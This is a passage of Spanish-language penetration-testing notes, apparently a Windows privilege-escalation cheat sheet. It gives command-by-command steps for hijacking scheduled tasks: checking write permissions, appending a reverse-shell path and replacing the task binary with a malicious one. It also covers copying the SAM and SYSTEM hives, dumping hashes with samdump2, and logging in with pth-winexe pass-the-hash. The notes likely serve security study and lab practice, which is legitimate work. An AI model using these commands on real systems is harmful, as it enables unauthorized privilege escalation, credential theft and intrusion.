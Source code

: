 2º Verificar los permisos que tiene el usuario para la tarea
~~~~c
>> .\accesschk.exe /accepteula -quv USUARIO TAREA
~~~~
NOTA: tenemos que encontrar el permiso FILE_APPEND_DATA y adicionalmente el FILE_EXECUTE

3º Copiar el contenido de la reverse shell a la tarea programada
~~~~c
>> echo C:\PATH\DE\REVERSE >> TAREA
~~~~

4º Esperamos a que se ejecute

### Forma OFFSEC

1º Listar todas las tareas programadas que el usuario puede ver
~~~~c
>> schtasks /query /fo LIST /v
~~~~

2º Comprobar Privilegios con icalcs
~~~~c
>> icacls "C:\PATH\DE\LA\tarea.exe"
~~~~

3º Tras crear la shell con el mismo nombre que el .exe de la tarea 1º renombramos el binario original  y copiamos el binario malicioso a esa ruta

~~~~c
>> move .\PATHTAREA\binarioori.exe binarioori.exe.bak
>> move .\bianrioori.exe .\PATHTAREA
~~~~

### Dependency Writeable
Se rellenara en un futuro

## Lectura de archivos sensibles
### Lectura de SAM y SYSTEM
El hive de SAM se puede encontrar en varias ubicaciones
C:\Windows\Repair
C:\Windows\System32\config\RegBack

2º Dumpeamos los hashes 

3º Mediante la herramienta samdump2 leemos los hashes 
~~~~c
>> samdump2 SAM SYSTEM
~~~~
### Pass The Hash

1º Con el hash del usuario con los privielgios mas altos (admin o lo que sea)

2º Iniciar sesion con las credenciales
~~~~c
>> pth-winexe -U ‘USUARIO%HASHDEUSUARIOENTERO’ //IP cmd.exe
~~~~
